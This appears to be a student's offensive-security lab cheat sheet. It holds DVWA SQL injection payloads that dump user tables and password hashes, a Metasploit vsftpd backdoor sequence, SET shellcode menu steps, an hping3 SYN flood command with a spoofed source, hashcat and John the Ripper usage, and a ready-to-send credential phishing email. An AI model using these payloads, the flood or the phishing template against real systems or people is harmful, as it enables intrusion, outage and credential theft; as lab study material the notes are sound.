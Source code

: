# SQLi
When DVWA security is set to LOW:

1.)Reveals all user is:1' OR '1'='1'#

2.)Reveals name of all tables in the database:'UNION SELECT table_name, NULL FROM information_schema.tables#

3.)Reveals all the column names form 'users' table:'UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name= 'users'#

4.)Reveals all the usernames and password hashes:'UNION SELECT user, password FROM users#

# Siteclone
https://facebook.com

# John the Ripper
https://www.stationx.net/how-to-use-hydra/

# netdiscover
Command | Explanation

sudo netdiscover | Auto-scans your current subnet to find live hosts.

sudo netdiscover -r 192.168.1.0/24 | Scans a specific subnet range manually.

sudo netdiscover -f | Performs a fast scan with less accuracy.

sudo netdiscover -i eth0 | Uses a specific network interface (e.g., eth0 or wlan0).

sudo netdiscover -r 192.168.1.0/24 > output.txt | Saves scan results to a text file.

sudo netdiscover -s | Continuously scans and updates live devices in real-time.

sudo netdiscover -p | Passive mode: silently listens to ARP traffic without sending packets.

# Phishing
Subject: [Action Required] System Security Update – Verify Your Account

Dear [Employee Name],

As part of our institution's routine security maintenance, we are rolling out an update to the internal login portal. To ensure uninterrupted access, all users are required to re-authenticate their credentials.

Please verify your account by visiting the secure portal at the link below:

https://institution-login-verification.example.com

This must be completed by 6:00 PM today to prevent temporary access restrictions.

Thank you for your prompt attention.

Sincerely,
IT Support Team
[Institution Name]

# Extra
* Metasploitable2 exploit:

https://rajeshmenghwar.medium.com/introduction-abdc1c5cd41b

search vsftpd
use exploit /unix/ftp/vsftpd_234_backdoor
show options
set rhosts 10.0.2.8
exploit


* Csec exploit:
https://medium.com/@sanjaisaayuj/csec-vulnhub-walk-through-d1de814a9f63

https://blog.razrsec.uk/basic-pentesting-1-walkthrough/

https://medium.com/@z6157881/basic-pentesting-1-walkthrough-vulnhub-00b1fe084167

* Corrosion2:
https://medium.com/@z6157881/corrosion-2-vulnhub-walkthrough-30c00787fa5d

https://www.hackingarticles.in/corrosion-2-vulnhub-walkthrough/


* SQL injections:
https://medium.com/@aayushtiruwa120/dvwa-sql-injection-91b4efb683e4

When DVWA security is set to LOW:
1.)Reveals all user is:1' OR '1'='1'#
2.)Reveals name of all tables in the database:'UNION SELECT table_name, NULL FROM information_schema.tables#
3.)Reveals all the column names form 'users' table:'UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name= 'users'#
4.)Reveals all the usernames and password hashes:'UNION SELECT user, password FROM users#


* SET alpha numeric:
sudo setoolkit
1) Social-Engineering Attacks
9) Powershell Attack Vectors
3) PowerShell Alphanumeric Shellcode Injector


* Dos Attack:
sudo hping3 -S <target IP> -a <fake src IP> -p <port(s)> --flood` | SYN Flood attack |
ip.addr==<kalivm>

* Passcracking:
 ?d = digit, ?l = lowercase, ?u = uppercase, ?s = special char

| Command                                                                                                     | Description         |
| ----------------------------------------------------------------------------------------------------------- | ------------------- |
| `hashcat -m <mode> -a <attack-mode> hash.txt wordlist.txt`                                                  | General format      |
| `sudo apt install wordlists`<br>`gunzip rockyou.txt.gz`                                                     | Install wordlists   |
| Modes: `0=MD5`, `100=SHA1`, `1700=SHA2-512`, `22000=WPA`                                                    | Hash types          |
| Masks: `?d?d?d?d`, `?l?l?l`, `?u?u`, `?a`                                                                   | Brute-force symbols |
| Attack Modes: `0=Dict`, `1=Combo`, `3=Brute`, `6=Hybrid Left`, `7=Hybrid Right`                             |                     |
| Options: `--session`, `--status`, `--force`, `-o`, `--remove`, `--benchmark`, `--restore`, `--potfile-path` |                     |


https://www.stationx.net/how-to-use-hydra/?utm_source=chatgpt.com

git clone https://github.com/openwall/john.git
cd john/run
office2john.py >> Helps extract password hashes from the documents
python3 office2john.py <Document.extension > = Password hash





















































________________________


